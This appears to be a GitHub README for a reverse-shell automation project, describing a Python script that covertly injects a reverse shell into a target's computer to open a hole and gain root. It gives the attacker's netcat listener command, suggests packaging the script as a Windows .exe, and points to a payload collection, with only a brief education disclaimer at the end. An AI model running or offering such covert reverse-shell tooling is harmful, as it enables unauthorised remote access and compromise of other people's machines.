 # 🖥🔄🖥 reversShell_automation
# main description

This project is a quick script that opens a revers shell script on a targets computer.
This script injects a revershell command with out the user even knowing this can also be used to make
a hole for a attacker to get in to. 

# not so long description 
This project contains a python file that starts a revers shell attack wich can be used as a
exploit to gain root 🌳.

# How to start the attack
start by listening on the attackers side 
command : ssty raw -echo; (stty size; cat) | nc -lvnp port -s IPaddr

# ❗ Important: 
You might if attacking a windows pc turn the py file in to a .exe file.

# 📎 Refernces used in this project 
--https://www.youtube.com/watch?v=bXCeFPNWjsM
--https://github.com/swisskyrepo/PayloadsAllTheThings

# 👀📍 disclamer
please don't spread this as malware or use on othere's with out concent,
this script was made for the pure pupose of education and cyber sucrity in mind.

--thank you
